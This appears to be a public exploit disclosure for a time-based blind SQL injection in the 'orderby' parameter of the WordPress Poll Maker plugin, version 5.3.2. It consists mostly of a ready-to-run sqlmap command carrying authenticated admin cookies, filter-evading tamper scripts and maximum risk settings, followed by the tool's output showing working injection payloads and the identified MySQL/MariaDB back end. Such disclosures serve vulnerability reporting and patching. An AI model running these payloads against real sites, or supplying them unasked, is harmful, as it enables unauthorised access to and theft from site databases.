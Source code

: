 ### Exploit Title: WordPress Poll Maker Plugin SQL Injection 
### Date: 2024-07-11
### Exploit Author: tmrswrr
### Category : Webapps
### Vendor: https://ays-pro.com/wordpress/poll-maker
### Version 5.3.2

1. **Access the Admin Panel:**
   - Navigate to the admin panel of your WordPress site.
   - Go to `Poll Maker`  > `Results` > https://localhost/wordpress/wp-admin/admin.php?page=poll-maker-ays-results&orderby=id&order=desc
     
3. Search for orderby parameter.

## SQLMAP COMMAND

python3 sqlmap.py -u "https://localhost/wordpress/wp-admin/admin.php?page=poll-maker-ays-results&orderby=id&order=desc" --cookie="wordpress_logged_in_55e28812cb0bc43705127d62a25df794=admin|1720624086|cQgkhpgoy0ZxhQSupSHRw7bo9mxcwEWyUp0VreNnZBK|d74e12a1cdecafc50c920c18d4711826598780dd360f3a637abcc68a6086f7a3; _wp_travel_engine_session=010869411d3c5e302ccf674d9a49d453||1720689253||1720688893; wordpress_logged_in_d31d6d9d0bfd834c03c5a471886561f0=admin|1720860313|TGYBq5U4ro5vSY5QpssgjpPJi4EmsOJQqWjLKD77XaV|81237d448295de9d99b8560e6b6d9d8640f81c4dbb629e550e56860775baf0b3; wordpress_sec_d31d6d9d0bfd834c03c5a471886561f0=admin|1720860313|TGYBq5U4ro5vSY5QpssgjpPJi4EmsOJQqWjLKD77XaV|d8d2e1da10a83ab054e39b8dfa5787c0dc2d586f364bcb584983b26efb857285; wordpress_test_cookie=WP Cookie check; wp-settings-1=editor=html; wp-settings-time-1=1720687513" --batch --dbms=mysql --threads=10 --no-cast --random-agent -v 3 --tamper="between,randomcase,space2comment" --level=5 --risk=3 

## RESULT

Parameter: orderby (GET)
    Type: time-based blind
    Title: MySQL >= 5.1 time-based blind (heavy query) - PROCEDURE ANALYSE (EXTRACTVALUE)
    Payload: page=poll-maker-ays-results&orderby=id PROCEDURE ANALYSE(EXTRACTVALUE(3054,CONCAT(0x5c,(BENCHMARK(5000000,MD5(0x58655778))))),1)# wcUc&order=desc
    Vector: PROCEDURE ANALYSE(EXTRACTVALUE([RANDNUM],CONCAT('\',(IF(([INFERENCE]),BENCHMARK([SLEEPTIME]000000,MD5('[RANDSTR]')),[RANDNUM])))),1)
---

---
[08:03:59] [WARNING] changes made by tampering scripts are not included in shown payload content(s)
[08:03:59] [INFO] the back-end DBMS is MySQL
[08:03:59] [PAYLOAD] id/**/PrOCEdUrE/**/analySE(exTRActvALuE(6707,CoNcAT(0x5c,(iF((VeRSION()/**/LikE/**/0x254d61726961444225),BenChmaRk(5000000,MD5(0x6e454541)),6707)))),1)#/**/ZrRh
[08:03:59] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
[08:04:01] [DEBUG] used the default behavior, running in batch mode
web application technology: Apache 2.4.54, PHP 8.0.23
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)

<img alt="Result" src="https://raw.githubusercontent.com/capture0x/Poll-Maker-SQL-Injection/main/11.png">



